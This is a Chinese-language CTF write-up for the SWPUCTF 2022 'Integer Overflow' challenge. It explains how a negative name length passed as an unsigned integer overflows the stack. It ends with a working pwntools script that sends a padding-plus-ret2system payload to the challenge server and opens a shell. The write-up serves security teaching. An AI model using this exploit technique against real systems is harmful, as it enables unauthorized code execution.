







## 基本信息

- 题目名称：[SWPUCTF 2022 新生赛]Integer Overflow
- 题目链接：https://www.nssctf.cn/problem/2634
- 考点清单：REVERSE，整数溢出，栈溢出，ROP
- 工具清单：gdb，python-pwntools，redare2

- payloads：详见本文末尾

## 一、看到什么

- 发现运行所需的.so环境在ubuntu22.04不能运行，于是换成kali环境

-   程序基本信息：32位，NX堆栈不可执行，影子栈SHSTK(Shadow Stack)，间接跳转追踪IBT(Indirect Branch Tracking)



-   反汇编暴露了7个函数



- 程序比较复杂，使用redare2直接输出C代码
- main函数是初始输出，调用了overflow函数



- overflow函数是一个菜单



- choice1、choice2、elsechoice三个函数作为菜单下属选项，逆向发现choice1是通过选项



- 发现choice1中含有一个read函数，传入参数为scanf的name_length，同时由于是无符号整数，存在负数强制转换触发整数溢出
- 反汇编pwn_me函数，发现后门系统调用



- 全局找shell字符串，找到“/bin/sh”



## 二、想到什么解题思路

### 第一轮

-   通过菜单选项选择进入choice1
-   传入负数触发整数溢出，无限read
-   read栈溢出，跳转到系统调用
-   由于32位程序，直接后跟shell字符串地址，调用时返回地址入栈，可以直接触发入栈传参。

## 三、尝试过程和结果记录

### 第一轮

-   padding=0x20+0x4=0x24=36
-   sys=0x080494fb
-   sh_addr=0x804a008
-   直接构造payload=padding * b’a’+p32(sys)+p32(sh_addr)

## 四、Payload

```python
from pwn import *

lc = "./int"

rm = "node5.anna.nssctf.cn"
prt = 29234

elf = ELF(lc)
#p = process(lc)
p = remote(rm,prt)

sys = p32(0x080494fb)
sh_addr = p32(0x804a008)
padding = 36*b'a'
payload = padding + sys + sh_addr 

#context.terminal = ['tmux','splitw','-h']
#gdb.attach(p)
#pause()

p.recvuntil("Tell me your choice:")
p.send("1\n")
p.recvuntil("length of your name:")
p.send("-1\n")
p.recvuntil("What's u name?\n")
p.sendline(payload)

p.interactive()
```

